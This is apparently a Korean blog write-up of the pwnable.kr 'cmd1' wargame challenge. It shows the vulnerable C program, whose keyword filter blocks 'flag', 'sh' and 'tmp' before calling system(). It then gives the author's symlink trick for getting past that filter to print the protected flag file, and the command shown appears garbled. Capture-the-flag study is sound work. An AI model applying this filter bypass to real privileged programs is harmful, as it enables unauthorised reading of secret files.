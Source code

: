```yaml
---
title: Pwnable KR - cmd1
slug: pwnable-kr-cmd1
date: 2016-04-25 16:36:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR cmd1](pwnable-kr-cmd1.png)

cmd1.c 파일 내용은 아래와 같다.
argv[1]에 flag나 sh나 tmp가 들어가면 안되는 듯.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/fuckyouverymuch");
    if(filter(argv[1])) return 0;
    system( argv[1] );
    return 0;
}
```

## 풀이

export 명령어로 환경변수를 하나 지정해서 넣어주면 된다.
난 처음에 환경변수를 생각 못해서 좀 괴상하게 풀었다.

tmp를 못쓰면 tmp에서 하면 되지!! 해서 이렇게

```
$ mkdir /tmp/cmd1k
$ ln -s /home/cmd1/cmd1 /tmp/cmd1k/cmd1
$ ln -s /home/cmd1/flag /tmp/cmd1k/f
$ cd /tmp/cmd1k
$ ./cmd1 'bin/catf'
mommy now I get what PATH environment is for :)
$
```

mommy now I get what PATH environment is for :)

환경변수 출력을 어떻게 해야하는지 까먹었는데 이번 기회에 다시 알게되서 참 좋다.
1점 문제만 있으면 좋겠다.
